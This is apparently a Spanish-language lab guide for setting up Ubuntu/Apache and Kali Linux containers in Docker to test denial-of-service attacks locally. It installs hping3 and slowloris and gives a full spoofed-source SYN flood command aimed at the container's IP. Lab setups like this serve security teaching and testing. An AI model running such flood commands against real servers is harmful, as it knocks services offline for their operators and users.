

# 🚀 Configuración de Contenedores para Pruebas de Seguridad

Este documento describe cómo configurar un entorno de prueba con **Ubuntu** y **Kali Linux** en contenedores Docker para evaluar ataques de Denial of Service (DoS) sobre un servidor Apache.

---

## 🏗️ Configuración del Servidor Apache en Ubuntu

En una terminal con Docker, ejecuta los siguientes comandos para desplegar y configurar un servidor Apache dentro de un contenedor **Ubuntu**.

### 📌 1. Crear un Contenedor de Ubuntu
```bash
docker run -dit --name servidor-apache-prueba -p 80:80 ubuntu
```


### 📌 2. Ejecutar la Instancia de Ubuntu
```bash
docker exec -it servidor-apache-prueba bash
```


### 📌 3. Actualizar el Sistema Ubuntu
```bash
apt update -y && apt upgrade -y
```


### 📌 4. Instalar el Servidor Apache
```bash
apt install -y apache2
```


### 📌 5. Configurar el Mensaje de Bienvenida
```bash
echo "Hola, soy un servidor con Apache Server. Si ves este mensaje, el servidor está activo." > /var/www/html/index.html
```


### 📌 6. Iniciar el Servicio Apache
```bash
service apache2 start
```


### 📌 7. Verificar la Página Web en el Navegador
En el navegador local, ingresa la siguiente URL:
```
http://localhost:80
```


---

## 🔥 Configuración de Kali Linux para Pruebas de Ataques DoS

En otra terminal, ejecuta los siguientes comandos para desplegar un contenedor con **Kali Linux** y preparar herramientas para pruebas de carga sobre el servidor Apache.

### 📌 1. Crear un Contenedor con Kali Linux
```bash
docker run -dit --name kali-testing kalilinux/kali-rolling
```


### 📌 2. Ejecutar la Instancia de Kali Linux
```bash
docker exec -it kali-testing bash
```


### 📌 3. Actualizar el Sistema Kali
```bash
apt update -y && apt upgrade -y
```


### 📌 4. Instalar Herramientas de Pruebas de Carga (Apache Benchmark, Hping3, Slowloris)
```bash
apt install -y hping3 slowloris apache2-utils
```


---

## 🚨 Iniciando el Ataque DoS al Servidor Apache

A continuación, se ejecutará un ataque de inundación TCP aleatoria contra la IP y el puerto 80 del servidor Apache.

### 📌 1. Identificar la IP del Contenedor Ubuntu
Desde la instancia de Ubuntu, ejecuta:
```bash
ip a
```


### 📌 2. Ejecutar Ataque de Inundación TCP con **Hping3**
```bash
hping3 -S --flood --rand-source -p 80 172.17.0.2
```


---

## 🎯 Conclusión

Después de realizar las pruebas, se puede analizar el impacto de los ataques en el servidor Apache. Se recomienda monitorear el uso de CPU y memoria del contenedor Ubuntu para evaluar el nivel de afectación.


⚠️ **Nota:** Este documento es únicamente con fines educativos. No se debe realizar ningún ataque fuera de un entorno controlado y autorizado.
